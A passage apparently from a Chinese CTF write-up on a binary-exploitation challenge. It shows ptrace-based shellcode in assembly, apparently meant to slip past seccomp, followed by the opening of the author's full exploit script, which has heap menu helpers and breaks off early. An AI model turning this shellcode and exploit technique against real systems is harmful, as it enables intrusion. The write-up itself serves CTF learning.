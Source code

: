 ```python
/* ptrace(PTRACE_CONT, pid, NULL, NULL) */
    xor r10,r10
    xor rdx,rdx
    mov rsi,rbx
    mov rdi, {PTRACE_CONT}  /* PTRACE_CONT */
    push {NR_ptrace}
    pop rax
    syscall
    js error

/* Wait seccomp  */
    xor rdi, rdi
    push {NR_wait}
    pop rax
    syscall

    xor r10,r10
    xor rdx,rdx
    mov rsi,rbx
    mov rdi,{PTRACE_DETACH}
    push {NR_ptrace}
    pop rax
    syscall
    hlt
"""
```

完整利用代码如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(choice):
    ru(b">")
    sl(i2b(choice))


def add(idx, size):
    cmd(1)
    ru(b"Index: ")
    sl(i2b(idx))
    ru(b"Size: ")
    sl(i2b(size))


def delet(idx):
    cmd(2)
    ru(b"Index: ")
    sl(i2b(idx))

```